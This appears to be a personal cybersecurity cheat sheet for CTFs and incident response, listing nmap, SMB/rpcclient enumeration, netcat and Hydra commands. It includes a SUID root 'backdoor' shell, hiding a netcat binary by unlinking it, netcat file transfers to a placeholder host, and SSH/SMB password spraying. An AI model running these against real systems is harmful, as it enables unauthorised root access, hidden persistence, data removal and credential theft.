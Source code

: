 # Toolbox


@TODO: Add these to your toolbox!
Add references to Hydra
Vmsplice
Sudo -L


>My mission is to create a list of "goto's" for myself when I do CTF's, Incident Response, or other CyberSecurity based activities.

[Ports](#ports)

[Port Scanners](#port-scanners)

[SMB Stuff](#smb-stuff)

[Linux Goodies](#linux-goodies)

[Specifically Netcat](#specifically-netcat)

[Hydra](#hydra)

## Ports

___

## Port Scanners!

### Nmap

#### Host Discovery
`nmap --reason -sP 172.17.0.1-254`

___

## SMB Stuff!

#### enumerate shares, but you need a username
`smbclient -L 172.30.0.22 -U <username>`

#### enumerate target Windows system with rpcclient
`rpcclient 172.30.0.22 -U <username>`

#### rpcclient prompt once logged in
`rpcclient $>`

> All commands after this line will be from the `rpcclient $>` prompt, if you don't see that prompt don't progress

#### rpcclient help, type at rpcclient prompt, you will hit tab twice
`enum<tabtab>`

#### enumerating users on domain
`enumdomusers`

#### help also prints off a bunch of commands you can use
`help`

#### enumerate service info
`srvinfo`

#### enumerate information about password policies
`getdompwinfo`

#### enumerate information about user password policies
`getusrdompwinfo <RID>`


___

## Linux Goodies! 

#### create a copy of /bin/sh shell to the tmp directory and call it backdoor

`cp /bin/sh /tmp/backdoor`

#### want this file to execute as root so chmod it

`chmod 4111 /tmp/backdoor`

#### file should be red and look at the permissions they will have the SUID bit set

`ls -l backdoor`

#### /bin/sh binary attempts to stop people from gaining root access from a SETUID binary; override this setting by adding a -p option

`./backdoor -p`

#### find look for SUID root files on the system in the tmp directory by running this

`find /tmp -uid 0 -perm -4000 -print`

#### find other SUID root files on the system 

`find /bin -uid 0 -perm -4000 -print`

#### create a network listening process and unlink the executable associated with it

`cp /bin/nc /tmp/nc` copy the binary for netcat to whatever directory you want 

`unlink /tmp/nc` using the unlink command we unlink this file so it won't show up when you do the `ls -l` command

#### delete a user account

`userdel -rf <UserAccountName>`

#### check to see if you deleted said account (UID 0 because if we are adding accounts they are root, baby ;) )

`grep :0: /etc/passwd`

#### Make Linux's network card go into promiscuous mode (on/off switch)

`ip link seet eth0 promisc on`

#### Check log entries that indicates that the interface went into promiscuous mode

`dmesg | grep promisc`

#### search the current running processes for the netcat binary (could search any process I want netcat is a mere example)

`ps aux | grep /tmp/nc`

#### lsof 


### Specifically Netcat

#### Netcat: Data Transfers

##### Move file from listener back to client
listener: `nc -l -p 7777 < file`

client: `nc listenerIP 7777 > file`

##### Upload file from client to listener
listener: `nc -l -p 7777 > file`

client: `nc listenerIP 7777 < file`

#### Netcat: Port Scanning

`nc -v -w3 -z targetIP startport-endport`

### Hydra

#### Password Spraying
`hydra -L <useraccounts.txt> -P <wordlist.txt> smb://10.10.0.1` smb service, using a word list of useraccount names (maybe you get these names from account harvesting?) and a word list of possible passwords

`hydra -L <useraccounts.txt> -P <wordlist> ssh://10.10.75.1` ssh service, uwsing a word list of useraccount names, using a word list of passwords

`hydra -l <username> -p <password> ssh://10.10.75.1`  one username and one password

`hydra -l <username> -P <wordlist.txt> ssh://10.10.75.1` one user name and a password word list
